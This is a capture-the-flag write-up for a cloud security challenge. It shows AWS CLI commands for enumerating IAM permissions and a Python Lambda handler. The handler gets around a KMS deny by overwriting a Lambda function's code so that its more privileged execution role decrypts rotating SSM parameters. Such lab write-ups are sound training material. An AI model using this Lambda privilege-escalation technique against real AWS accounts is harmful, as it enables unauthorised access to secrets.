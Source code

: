 # Shreyas and his Vault of Shifting Echoes

**Category:** Cloud Security  
**Difficulty:** Medium  
**Points:** 500  

## Challenge Description


Shreyas built a vault where his treasure shifts with time's flow, hidden among decoys that clutter the storage halls. You have a broken key - a tool that can unlock the treasure but doesn't work properly. You can fix this key and use it, but you must be quick. The treasure's hiding spot follows a pattern in time. Find the pattern, repair your key to follow it, and claim the prize before it moves again.
> 
> **Note:** Install AWS CLI and configure it with credentials from: `creds.pbctf.live`


## Solution Path

### Step 1: Initial Setup and Reconnaissance

First, lets obtain the AWS credentials from the provided endpoint and configure AWS CLI:

![Creds](images/alloted_creds.png)

```bash
aws configure
```
![Configure CLI](images/configure_cli.png)

Let's start by exploring what resources we have access to:

```bash
aws sts get-caller-identity
```
![Identity](images/identity.png)

### Step 2: Permission Enumeration
Let's see what permissions we have:

```bash
aws iam list--user-policies --user-name pbctf-participant-27
```

```json
{
    "PolicyNames": [
        "pbctf-participant-27-policy"
    ]
}
```

```bash
aws iam get-user-policy --user-name pbctf-participant-27 --policy-name pbctf-participant-27-policy
```

![Policies](images/permission_policies.png)

From the policy, we can see we have:

- SSM parameter access under /pbctf/ path in ap-south-1 region
- Lambda function permissions (update code, invoke, get function) - but only for our specific function pbctf-participant-27
- Explicit KMS deny (interesting!)
- IAM permissions to inspect our own user policies

### Step 3: Finding the "Vault"

The description mentions a "vault" - this is probably SSM Parameter Store given our permissions:

```bash
aws ssm get-parameters-by-path --path "/pbctf"
```

![SSM Parameters](images/ssm_parameters.png)



Excellent! We found a parameter with the name `/pbctf/flag.2025-08-11-15-25`(But Why is there is a timestamp appended at the end?, It's showing nearly the current time - is it updating frequently? 👀). 
The value is encrypted (SecureString), meaning there's a KMS key encrypting it, and will most likely fail to decrypt with our current permissions:

```bash
aws ssm get-parameter --name "/pbctf/flag.2025-08-11-15-25" --with-decryption
```

![Denied](images/denied.png)

As expected, we are explicitly denied KMS access. But wait... the "broken key" mentioned in the description... maybe that refers to a lambda function based on our permission policy?

### Step 4: Discovering the Lambda Function
 
Looking at our permissions, we have Lambda access to a specific function. Let's check it out

```bash
aws lambda get-function --function-name pbctf-participant-27
```

![lambda func](images/lambda_func.png)

Perfect! There's our Lambda function with description ""pbctf Challenge function for participant 27 - Vault of Shifting Echoes".

Notice that execution role! Maybe the function has higher privilages? Let's test by invoking it:

```bash
aws lambda invoke --function-name pbctf-participant-27 output.json
```

```bash
cat output.json
```

![Output 1](images/output1.png)

Seems like the code is basically empty, just returns a welcome message

### Step 5: Understanding the Time Pattern

Wait... the description mentioned "The treasure's hiding spot follows a pattern in time". Let's check if that timestamp we suspected has changed

```bash
aws ssm get-parameters-by-path --path /pbctf | grep Name
```

![Output 1](images/timeshift.png)

The timestamp changed indeed! This confirms the time pattern mentioned in the description. 

The parameter name follows the format:
flag.YYYY-MM-DD-HH-MM where the time increments every 5 minutes

This explains the challenge, we need to predict the current timestamp window to access the right parameter, but we can't decrypt it directly due to KMS restrictions.

### Step 6: Exploiting the Lambda Function

We are stuck, we can't decrypt the SSM parameter directly due to KMS restrictions, but we need to access the flag that rotates every 5 minutes. 
But Wait there is a possibility that the Lambda execution role might have different permissions than our user account! Maybe that's the very reason we have access to update it? The description mentions about the "broken key" that we must "repair", that could be the lambda function itself!

Let's craft a Lambda function that can decrypt the parameters:

```python
import json
import boto3
import datetime

def lambda_handler(event, context):
    ssm = boto3.client('ssm')
    now = datetime.datetime.utcnow()

    for offset in [0, -5]:
        ts = now + datetime.timedelta(minutes=offset)
        ts = ts.replace(minute=(ts.minute // 5) * 5, second=0, microsecond=0)
        name = ts.strftime("/pbctf/flag.%Y-%m-%d-%H-%M")
        try:
            val = ssm.get_parameter(Name=name, WithDecryption=True)['Parameter']['Value']
            return {'statusCode': 200, 'body': json.dumps({'name': name, 'value': val})}
        except ssm.exceptions.ParameterNotFound:
            pass

    return {'statusCode': 404, 'body': json.dumps({'error': 'Flag not found'})}

```
The function logic is straightforward, we calculate the current UTC time, round down to the nearest 5-minute window using and try both current and previous windows to handle timing edge cases. 

Lets hope this works, time to package and deploy it:

### Step 7: Deploying and Executing the Function

```bash
zip function.zip lambda_function.py

aws lambda update-function-code --function-name pbctf-participant-27 --zip-file fileb://function.zip
```

![Func Update](images/func_update.png)

Now let's invoke our updated function:

```bash
aws lambda invoke --function-name pbctf-participant-27 output.json

cat response.json
```

![Flag](images/flag.png)


Success! The Lambda function successfully retrieved and decrypted the flag since it indeed has elevated KMS permissions.

**Flag:** `pbctf{temp0ral_r3lay_t0_kms}`
